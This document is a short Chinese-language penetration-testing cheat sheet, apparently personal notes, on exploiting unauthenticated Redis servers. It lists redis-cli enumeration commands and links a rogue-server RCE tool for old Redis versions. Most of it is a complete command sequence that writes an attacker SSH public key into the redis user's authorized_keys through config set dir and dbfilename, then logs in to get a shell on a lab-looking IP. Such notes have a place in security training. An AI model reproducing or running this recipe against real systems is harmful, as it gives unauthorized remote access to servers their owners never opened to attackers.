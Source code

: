 ```bash
redis-cli -h <IP>    链接Redis
auth <PASSWD>     (身份验证)
```

```
keys * (获取所有的键)
incr xxx  (新建值)
get xxx  (获取值)
config get dir (配置文件所在的目录)
```

##### Redis Version < 5.0.5   ,   RCE
https://github.com/n0b0dyCN/redis-rogue-server?source=post_page-----49920d4188de--------------------------------











# 利用

可以尝试是否存在 `/var/lib/redis/.ssh` 文件夹？
```
config set dir ./.ssh
config get dir
```
成功修改就表明改目录存在。
```bash
ssh-keygen -f te   (生成一对密码)
(echo -e "\n\n"; cat te.pub; echo -e "\n\n") > spaced_key.txt  (收尾添加空格)
```
添加键
```
cat spaced_key.txt | redis-cli -h 10.129.2.1 -x set xek  (kali)
config set dbfilename "authorized_keys"  (修改名字)
save  (保存修改)
```
获得 shell
```bash
chmod 600 te ; ssh -i te redis@10.129.2.1
```

